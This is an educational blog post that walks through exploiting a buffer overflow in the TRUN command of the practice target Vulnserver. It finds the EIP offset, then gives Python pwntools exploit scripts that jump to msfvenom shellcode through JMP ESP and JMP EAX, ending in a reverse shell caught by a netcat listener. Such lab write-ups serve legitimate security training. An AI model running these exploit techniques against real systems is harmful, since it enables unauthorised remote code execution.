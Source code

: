 ```yaml
---
title: "Vulnserver: Buffer overflow in TRUN command"
date: 2019-08-02
---
```


In this post we are going to analyze the crash we found previously in the TRUN command of Vulnserver by using our fuzzer. And we are also going to look at different ways of exploiting it.<!--more-->

# Analyzing the crash
As a reminder, the registers in Immunity Debugger looked like in the image below after the crash.

{{img(id="img/immunitydbg1.PNG" class="textCenter")}}

From that we can see that we probably control EIP and we can also obtain the string we send to the application from the EAX register. So if we extract the string we obtain the following:

```bash
TRUN /.:/AAAAAAAAAAAAAAAAAAA... # There's supposed to be 5000 As here
```

Our next step is going to be what is the offset in which we overwrite EIP so that we can control it properly. To do that we will use python and [pwntools](https://github.com/Gallopsled/pwntools), a python library that will help us in exploit development. We can simply install it by running **pip install pwntools** in the terminal in our Kali VM and we can check if it's intalled correctly simply by running **pwn update**.

{{img(id="img/pwntools1.PNG" class="textCenter")}}

To get the offset of EIP we are going to substitute the sequence of 5000 As with a de Bruijn sequence which we will generate by using pwntools by running **pwn cyclic 5000** in the terminal. We can copy the output and then give it to Vulnserver manually by using netcat, make sure you are debugging the application with Immunity Debugger so that we cna analyze the crash.

{{img(id="img/vulnserver1.PNG" class="textCenter")}}

Now if we look at the debugger there's a crash and in the Registers window we can see that now EIP is equal to 61616275, this number is part of our de Bruijn sequence but its represented in hexadecimal. To obtain its position in the sequence we can use pwntools again by running **pwn cyclic -l 0x61616275**, we appended *0x* to the beginning of our number to signal its in hex.

{{img(id="img/immunitydbg2.PNG" class="textCenter")}}

{{img(id="img/pwntools2.PNG" class="textCenter")}}

Now that we know our offset is 2003 let's test it by changing EIP to something easy to spot like 0xcafebabe. To make our job easier let's write a script in python using pwntools that connects to Vulnserver and sends the command.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.46"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0xcafebabe # Address we want to overwrite EIP with.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

Once we execute this script with python we produce a crash and if we check the debugger we can see that the EIP overwrite has worked corretly.

{{img(id="img/immunitydbg3.PNG" class="textCenter")}}

# Exploiting
So finally it's time to start the fun part, executing whatever code we want in the victim. First we have to think where can we write the code we want to execute and how to move the execution to it. And in this case we have two options that we can see in the screen above, EAX which points to the beginning of our string or ESP which points to "aauf..." which if we check with **pwn cyclic -l aauf** is at offset 2017.

## Using ESP
Let's start with the option of using ESP since it's a bit easier, to do that we need to write our shellcode in the offset where ESP is pointing at and find an address in Vulnserver's execution that points to a jmp esp instruction. To achieve the later we can use the plugin mona.py in Immunity Debugger with the command **!mona jmp -r esp** and it will show us in the log all the different addresses we can use.

{{img(id="img/immunitydbg3.PNG" class="textCenter")}}

So let's choose one of those addresses, for example 0x625011af and know we need to find some shellcode to execute, we can look for something on the internet like for example in [shell-storm](http://shell-storm.org/shellcode/) or even better we can create our own with the metasploit tool msfvenom.

{{img(id="img/msfvenom1.PNG" class="textCenter")}}

Now what's left is simply putting together all the different parts which we can see in the code below.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.46"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0x625011af # Address we want to overwrite EIP with, jmp esp in this case.

# Here we put the shellcode we want to execute.
offset_sc = 2017 # Offset of ESP.
shellcode =  "\x90"*15 # NOP sled for conflicts with the shellcode using the stack.
shellcode += "\xda\xc7\xb8\x19\xda\x3b\xc4\xd9\x74\x24\xf4\x5b"
shellcode += "\x2b\xc9\xb1\x52\x31\x43\x17\x03\x43\x17\x83\xda"
# ... shellcode keeps going but it's cut for brevity.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    offset_sc:shellcode,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

After that we can set up a listener with netcat in port 4444 in our Kali VM and execute the python script. If you did everything correctly you should be able to see the following:

{{img(id="img/pwned1.PNG" class="textCenter")}}

## Using EAX
This case is really similar to using ESP but we have to take into account that it's pointing to the beginning of the string and we can't modify the "TRUN /.:/" part since it's the one that runs the command. We need to find a jmp eax plus a value bigger than 9 or we also have another option, if we treat "TRUN /.:/", *54 52 55 4e 20 2f 2e 3a 2f* in hex, as instructructions, we can see that they don't actually modify the flow of our shellcode. We can disassemble them using the coommand **pwn disasm 54 52 55 4e 20 2f 2e 3a 2f**.

{{img(id="img/pwntools3.PNG" class="textCenter")}}

So we just need to modify our previous code with the necessary offsets and addresses we obtain like in the previous method and our script will look something like this:

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.45"
port = 9999 

# Define the variables with the data we obtained.
cmd = "TRUN /.:/" # Command used and start of payload.
offset_eip = 2003 + len(cmd)
eip = 0x625011b1 # Address we want to overwrite EIP with, jmp eax in this case.

# Here we put the shellcode we want to execute.
shellcode =  "\x90"*16 # NOP sled for safety.
shellcode += "\x89\xC4\x83\xEC\x7C" # mov esp,eax; sub esp,0x7c
shellcode += "\xda\xc7\xb8\x19\xda\x3b\xc4\xd9\x74\x24\xf4\x5b"
shellcode += "\x2b\xc9\xb1\x52\x31\x43\x17\x03\x43\x17\x83\xda"
# ... shellcode keeps going but it's cut for brevity.

# Create our payload.
payload = fit({
    0:cmd + shellcode,
    offset_eip:eip,
    },length=5000)

# Connect to the target and send the payload.
io = remote(ip,port)
io.readline()
io.sendline(payload)
```

A really important point to make is that we added the instructions **mov esp,eax; sub esp,0x7c** to the beginning of our shellcode so that we don't get our shellcode overwriten when it uses the stack, the value *0x7c* is really important since it has to be a multiple of 4 to keep the stack aligned or some library calls will produce an error.

And that's it guys, see you in the next post!